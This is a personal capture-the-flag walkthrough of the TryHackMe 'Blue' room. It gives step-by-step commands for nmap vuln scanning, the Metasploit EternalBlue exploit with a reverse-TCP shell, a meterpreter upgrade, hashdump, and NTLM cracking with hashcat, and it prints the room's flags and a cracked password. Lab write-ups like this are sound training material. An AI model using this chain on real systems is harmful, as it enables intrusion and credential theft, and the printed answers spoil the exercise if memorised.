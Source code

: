 ```yaml
---
layout: page
title: Blue
permalink: /Tutorials/TryHackMe/Blue/
---
```


[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
<br/><br/>
<br/><br/>
<br/><br/>
Flags will be **BOLD**
<br/><br/>
<br/><br/>
<br/><br/>
I used this page to help learn more Nmap commands maybe you can to!
<br/><br/>
https://www.stationx.net/nmap-cheat-sheet/
<br/><br/>
Start the machine and the connect using your Open VPN
<br/><br/>
Run "nmap *IP of Active machine*" to scan 1000 common ports
<br/><br/>
<img src="/images/TryHackMe/Blue/Blue-Port Count.PNG">
<br/><br/>
We now have the first Flag!
<br/>
**"3"** is the number of open ports under 1000
<br/><br/>
Now we need to see what the machine is vulnerable to
<br/><br/>
lets run a quick command on those 3 ports
<br/><br/>
"nmap --script vuln -p *IP of Active machine* -v"
<br/><br/>
"--script vuln" will load in scripts to scan on the target IP/Ports
<br/>
"-p 135-445" will scan ports 135-445 with those vulnerability script
<br/>
"-v" increases the verbosity *adds more words* (you can use -vv for a greater effect)
<br/><br/>
<img src="/images/TryHackMe/Blue/Blue-MS17.PNG">
<br/><br/>
Now we have our final flag of task 1!
<br/><br/>
in our command we see **"ms17-010"** it even shows the disclosure date right below the red box
<br/><br/>
<br/><br/>
**TASK 2**
<br/><br/>
We will need to use Metasploit for this portion
<br/><br/>
Lets run "msfdb init" (MetaSploit Framework DataBase Initialize)
<br/><br/>
Now lets run "msfconsole"
<br/><br/>
Once we get our ASCII art we can run the next command
<br/><br/>
"search ms17-010"
<br/><br/>
This will show several options but since weknow we have a Windows machine we can try those first
<br/><br/>
"use 2" will choose the second choice
<br/>
<img src="/images/TryHackMe/Blue/Task 2-2.PNG">
<br/>
**"exploit/windows/smb/ms17_010_eternalblue"** is the answer for the full path of the code
<br/><br/>
Next up "Set RHOSTS *IP of Active machine*"
<br/>
<img src="/images/TryHackMe/Blue/Task 2-3.PNG">
<br/>
**"RHOSTS"** is the answer for the name of the value
<br/><br/>
We will also need to set the LHOSTS to tun0
<br/><br/>
"set LHOST tun0" due to using a vpn
<br/><br/>
"show options" will show all the required areas are now done
<br/><br/>
The room wants us to use "set payload windows/x64/shell/reverse_tcp" before we do the next step
<br/><br/>
all we have to do now is type "run"
<br/><br/>
No we are in! (You may need to press enter) 
<br/><br/>
**TASK 3**
<br/><br/>
Type "whoami" to see if we are now connected as "nt authority\system"
<br/><br/>
place this session in the background with "ctrl+Z"
<br/><br/>
now we need to search for shell_to_meterpreter
<br/><br/>
"search shell_to_meterpreter"
<br/><br/>
We now see the answer to a question!
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 3-1.PNG">
"**post/multi/manage/shell_to_meterpreter**"
<br/><br/>
Now lets use what we found
<br/><br/>
"use post/multi/manage/shell_to_meterpreter"
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 3-2.PNG">
use "show options" and we see we need to change "**Session**"
<br/><br/>
now we need to set our session
<br/><br/>
use "sessions" to find your sessions #
<br/><br/>
"set session *Session #*"
<br/><br/>
once that is done type "sessions" and it should have new information under "Information"
<br/><br/>
type "session *session #*
<br/><br/>
now it should show "meterpreter" on the current line
<br/><br/>
try using "shell" and then "whoami" to see if we are system
<br/><br/>
press "ctrl+z" to get back to meterpreter
<br/><br/>
Now lets look at processes w/ "ps"
<br/><br/>
now we need to try and migrate to one of these processes
<br/><br/>
I used "migrate 2536" to go to svchost.exe but your masy be different
<br/><br/>
**TASK 4**
<br/><br/>
Now we get to play with hashes!
<br/><br/>
"hashdump" will give us 3 hashes
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 4-1.PNG">
"**Jon**" is the answer to 1 question of Task 4
<br/><br/>
if you google "windows password hash format" you will see they are either LM or NTLM
<br/><br/>
Lets try to crack all 3 with hashcat!
<br/><br/>
Lets save them as a document named "Bluehashes.txt"
<br/><br/>
you will need world lists for hashcat. I already had a "rockyou" list so I will use that
<br/><br/>
for hashcat we will use "sudo hashcat -a 0 -m 1000 Bluehashes.txt rockyou.wordlist --force --username --show > Hashed.txt"
<br/><br/>
-a is for the attack mode 0, -m 1000 is for the NTLM hash format, --force is for if you do not have a Intel OpenCL runtime, --username ignores the username, > Hashed.txt names a file with the output
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 4-2.PNG">
In that new file at the end of Jons line is "**alqfna22**"
<br/><br/>
**TASK 5**
<br/><br/>
Now we need to find flags
<br/><br/>
"Flag1? This flag can be found at the system root."
<br/><br/>
"ls C:\\ will list the root
<br/><br/>
we now see "flag1.txt"
<br/><br/>
lets cat it!
<br/><br/>
"cat flag1.txt"
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 5-1.PNG">
"**flag{access_the_machine}**"
<br/><br/>
The second flag is where passwords are stored which would be "C:/windows/system32/config"
<br/><br/>
"cd C:/Windows/System32/Config"
<br/><br/>
"dir"
<br/><br/>
Will show us there is a "flag2.txt"
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 5-2.PNG">
<br/>
"**flag{sam_database_elevated_access}**"
<br/>
We now have 2 of the 3 flags!
<br/><br/>
For the final flag we don't have much context so lets search instead
<br/><br/>
"search -f flag*.txt" should work
<br/><br/>
We now see a flag3.txt in Jons documents 
<br/>
<img src="/images/TryHackMe/Blue/Task 5-3.PNG">
<br/>
"**flag{admin_documents_can_be_valuable}**"
<br/><br/>
We have finally succeeded in the room!
<br/><br/>
[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
